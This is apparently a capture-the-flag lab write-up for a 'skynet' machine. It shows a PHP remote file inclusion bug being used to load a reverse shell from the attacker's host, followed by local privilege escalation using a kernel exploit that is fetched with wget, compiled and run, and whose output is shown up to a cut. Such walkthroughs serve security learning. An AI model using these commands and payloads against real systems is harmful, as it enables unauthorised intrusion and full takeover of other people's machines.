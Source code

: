 /alerts/alertConfigField.php (LINE: 22)

-----------------------------------------------------------------------------
LINE 22: 
        <?php include($_REQUEST["urlConfig"]); ?>
-----------------------------------------------------------------------------
    
seems like we must do a php code injection, so let's use php reverse shell
lets get this
download php reverse shell from pentest monkey, edit the config
according to the documentation
1. set up simple http
2. nc -lvnp port
3. place the following url

http://10.10.223.79/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.102.117/php-reverse-shell.php

4. catch the shell 

get the user.txt

Privilege Escalation

check version   >> uname -a
find exploit 
get exploit file to target after setting up webserver

www-data@skynet:/tmp$ wget 10.8.102.117:80/43418.c
wget 10.8.102.117:80/43418.c
--2021-05-02 05:11:32--  http://10.8.102.117/43418.c
Connecting to 10.8.102.117:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24033 (23K) [text/x-csrc]
Saving to: '43418.c'

43418.c             100%[===================>]  23.47K  90.6KB/s    in 0.3s    

2021-05-02 05:11:33 (90.6 KB/s) - '43418.c' saved [24033/24033]

www-data@skynet:/tmp$ ls
ls
43418.c
systemd-private-5f8beb6b2d9448a7a43dca19e2677502-dovecot.service-ihszxh
systemd-private-5f8beb6b2d9448a7a43dca19e2677502-systemd-timesyncd.service-Bm3wiD
www-data@skynet:/tmp$ gcc 43418.c -o exploit
gcc 43418.c -o exploit
www-data@skynet:/tmp$ ls
ls
43418.c
exploit
systemd-private-5f8beb6b2d9448a7a43dca19e2677502-dovecot.service-ihszxh
systemd-private-5f8beb6b2d9448a7a43dca19e2677502-systemd-timesyncd.service-Bm3wiD
www-data@skynet:/tmp$ chmod +x exploit
chmod +x exploit
www-data@skynet:/tmp$ ./exploit
./exploit
[.] starting
[.] checking distro and kernel versions
[.] kernel version '4.8.0-58-generic' detected
[~] done, versions looks good
[.] checking SMEP and SMAP
[~] done, looks good
[.] setting up namespace sandbox
[~] done, namespace sandbox set up
[.] KASLR bypass enabled, getting kernel addr
[~] done, kernel text:   ffffffff82400000
[.] commit_creds:        ffffffff824a5d20